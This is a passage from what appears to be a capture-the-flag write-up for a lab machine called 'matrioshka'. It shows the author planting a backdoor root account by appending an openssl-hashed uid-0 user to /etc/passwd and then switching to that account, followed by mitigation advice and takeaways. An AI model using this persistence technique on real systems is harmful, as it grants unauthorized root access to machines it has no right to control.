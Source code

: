 
For persisting the root user into the main IP that is `10.0.2.47` I try to add a user as root.

For that lets check the availability of `openssl` that will create the user password into the machine and then create a user called <span style="color:rgb(219, 0, 0)">shiva</span> with password <span style="color:rgb(219, 0, 0)">root</span> ⏬

```bash
# which openssl
/usr/bin/openssl
# echo "shiva:`openssl passwd root`:0:0:root:/root:/bin/bash" >> /etc/passwd
# bash -i
root@e06ae16bda0e:~# 
```
{: .nolineno }

Now lets be root 🔻

```bash
matrioshka@matrioshka:/tmp$ su shiva
Password: 
root@matrioshka:/tmp# cd ~
root@matrioshka:~# ls
root.txt
root@matrioshka:~#
```
{: .nolineno }

I am root now !!

---

## 🔍 Mitigation

✅ Update wp-automatic plugin to the latest version (beyond 3.121.0) and enable auto-updates in WordPress to prevent SQLi vulnerabilities.

✅ Change default credentials for internal services like HFS and restrict access to localhost or use strong authentication; patch HFS to a version post-0.52.9.

✅ Secure Docker environments by avoiding root-privileged containers, using least-privilege principles, and disabling unnecessary volume mounts; regularly audit env vars for sensitive data exposure.

✅ Implement firewall rules to block internal port exposure and use secrets management (e.g., Docker secrets) instead of env vars for credentials.

---

## 💡 Takeaways

✅ **Defense-in-depth matters:** multiple small weaknesses (vulnerable plugin + exposed environment variables + high-privileged container services) chained into full host compromise.
    
✅ **Secrets leakage is deadly:** environment variables containing DB passwords gave direct credential reuse opportunities.
    
✅ **Containers are not a silver bullet:** if an attacker can run Docker or has access to Docker socket, the host can be compromised (e.g., mounting host FS). Always restrict Docker API access.
    